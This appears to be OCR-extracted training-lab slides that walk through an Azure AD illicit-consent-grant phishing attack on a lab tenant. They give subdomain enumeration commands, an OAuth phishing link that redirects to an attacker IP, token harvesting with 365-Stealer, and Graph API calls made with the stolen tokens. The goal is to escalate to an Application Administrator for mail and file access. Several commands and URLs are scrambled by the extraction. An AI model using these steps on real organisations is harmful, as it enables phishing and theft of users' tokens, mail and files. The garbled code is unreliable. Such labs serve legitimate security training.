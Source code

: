 ## Initial Access - Illicit Consent Grant

* We need to find a way to send the link to targets. We can abuse applications that allow us to contact users in the target organization.
* We can find applications running on the defcorphq tenant by sub-domain recon.
* Use MicroBurstto find the applications. We can add permutations like career, hr, users, file, backup to the permuations.txt used by MicroBurstetc. . C:\AzAD\Tools\MicroBurst\Misc\Invoke- EnumerateAzureSubDomains.ps1 Invoke-EnumerateAzureSubDomains -Base defcorphq -Verbose
* We can also assume that the https://defcorphqcareer.azurewebsites.net application is known as a contractor may have some existing knowledge of the target.

## Initial Access - Illicit Consent Grant

* Using the 'Need Help' section of the career application running on defcorphq, send the phishing link. https://login.microsoftonline.com/common/oauth2/authorize?response\_type=code\&client\_id=dd84e18a4b33-45c8-b36c- - 41ccb4624802\&scope=https://graph.microsoft.com/.default+openid+offline\_access+\&redirect\_uri=https://172.16. **151**. **X** /login/authorized\&response\_mode=query\&sso\_reload=true **Parameter Description** response\_type Must be "code" for authorization code flow (can be used torequest access and refresh tokens) client\_id Application ID of the application that youregistered scope List for MicrosoftGraph permissions redirect\_uri The redirect urispecified during app registration response\_mode "query" provides the code asquery string parameter

## Initial Access - Illicit Consent Grant

* Wait for couple of minutes and browse to [http://localhost:82/365-Stealer/yourvictims/](http://localhost:82/365-Stealer/yourvictims/) on the attacking machine to get tokens for victims who click on the phishing link.
* Use the access token with the Graph API to list other users in the tenant.
* Note that only the permissions that we requested earlier are available with the access token. We can list all the users thanks to User.ReadBasic.All \$$URIToken= ='https://graph.microsoft.com/v1.0/users''eyJ0eXAiOiJK...' $RequestParamsMethod = 'GET'= @{ Uri Headers == $URI@{ } 'Authorization' = "Bearer $Token" }(Invoke-RestMethod @RequestParams).value

## Initial Access - Illicit Consent Grant

* We need to target an Application Administrator to grant consent for better permissions.
* Ideally, we have to target all the users. For the lab, we can use our earlier enumeration that Application Administrator role is assigned to markdwalden@defcorphq.onmicrosoft.com
* We need to register a new app (or modify existing one) and now request permissions that need admin consent -mail.read, notes.read.all, mailboxsettings.readwrite, files.readwrite.all, mail.send
* Generate a new link using 'Read More' on https://localhost and send an email to the user containing that link (Remember to change the client ID if you register a new application): httpsb36c-://login.microsoftonline.com/common/oauth2/authorize?response\_type=code\&client\_id=dd84e18a-4b33-45c8- 41ccb4624802\&scope=https://graph.microsoft.com/.. **X** /login/authorized\&response\_mode=query\&sso\_reload=truedefault+openid+offline\_access+\&redirect\_uri=https://172.16. **151**
* Once the user simulation grants consent, we will get the access token of the application administrator.

## Initial Access - Illicit Consent Grant
